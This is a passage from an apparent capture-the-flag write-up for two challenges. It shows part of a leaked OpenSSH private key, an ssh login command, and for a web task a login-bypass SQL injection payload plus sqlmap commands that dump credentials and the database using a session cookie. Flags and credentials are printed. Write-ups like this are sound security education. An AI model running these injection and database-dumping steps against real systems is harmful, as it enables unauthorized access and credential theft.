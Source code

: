 ```
PCvI0TAnDagG47TE+uK3n358xIvPnV3aws22FmeZTrWw09IotMXzCNsxuqmIkyztCrOHfQ
OrXS2XlciBVFTa5mxYwA92XNHS8GcZIAWhPvVk6mlihjsWTkSvyiWPu9WsoroSRYecIBuz
lTnBe8F+4G9O+4Qo+vTt8zo6Yuuq85AAAAwQDmyfKxwDGdtu0AACkLpBWpmBYH9Idy28Qf
d+QSgh5x5OeJs+6guA/fgt5exRXWYQl7R2cqUKzVNCCjvdwQ4zypfIbUm6qnx+VGEvvafH
DPrDvB7J5KwvM39c0ia74Oz721avDJ/LWIgbyWqou56yt3XR3RxVduJ682V7WgnRYy5i81
i+rzDNK1fsyXAXEKFV8juTk03jEN/2O+3AKWibNUVVLIUuVI+MfLDkMuZI0yu1OkvANpWO
8mNMh66IAN1VcAAAAMY2EtMjE1QENhbmlzAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
```

We can save this key and use it to login as the ``vault`` user:<br>
``ssh vault@xn--jttenettet-d6a.dk -p 2222 -i vault.priv``

Which just prints us the flag:<br>
``FDCA{S5H_Can_B3_M4de_Quit3_Str1ct}``

Since I solved this challenge the day before it released, I was ready to submit when it was released and therefore got a first blood the second it released.

## Day 16 - Jætte Tracker 9000 
###### 1000pts - 21 solves - Easy - Web
This challenge was running on the same server as the previous two, except on port ``8080``.

Upon navigating to the page we are met with a simple login form. If we try to input an SQL injection payload like ``' OR 1=1;-- -``, we get logged in as Thor.
But we do not have permission to do anything further. This points towards the solution relying on more SQLi.

For this we can simply use SQLMap with the following command:<br>
``sqlmap -u http://xn--jttenettet-d6a.dk:8080/ --forms --dump``

This gives us a nice form with credentials of all users. From this we can see that ``Odin`` has the permissions ``1000`` which is higher than any other.
We can therefore login using the credentials:<br>
``odin:3f31941c38e702ee814a381a7a56d8c0``

This lets us login and actually use the search function. This doesn't seem to yield any interesting results manually. Therefore we can try SQLMap again on the new endpoint.
To do this we have to copy our session token so we can test the search function:<br>
``sqlmap -u http://xn--jttenettet-d6a.dk:8080/jaettefinder/ --forms --dump --dbs --cookie="PHPSESSID=051d00b7f63dbbe3b6365948325efcf1"``

This lets us dump everything interesting in the database, including the flag:<br>
``FDCA{N0rd1sk3_gud3r_sk4l_0gsaa_par4m4t3r1ze}``
